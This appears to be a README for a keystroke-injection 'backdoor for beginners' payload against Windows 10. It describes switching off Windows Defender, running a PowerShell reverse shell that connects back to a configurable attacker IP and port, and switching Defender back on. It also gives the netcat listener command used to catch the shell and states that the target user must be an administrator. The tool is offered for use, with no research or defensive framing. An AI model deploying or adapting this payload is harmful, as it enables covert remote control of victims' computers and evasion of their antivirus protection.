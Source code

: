 # Simple Backdoor for beginners
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script
  
## Description
* opens a backdoor that you can access with Netcat
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender

## Configuration
* You just need to change 192.168.1.1 and 22
* lhost = your IP adress
* lport = the port you want to use for the Backdoor. I recommend ssh (22).
* example: readonly lhost="192.168.4.20";
           readonly lport="80"

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
* rhost = IP adress from the target
* rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Triple       | activate defender Stage                |
| Green               | Finished                               |
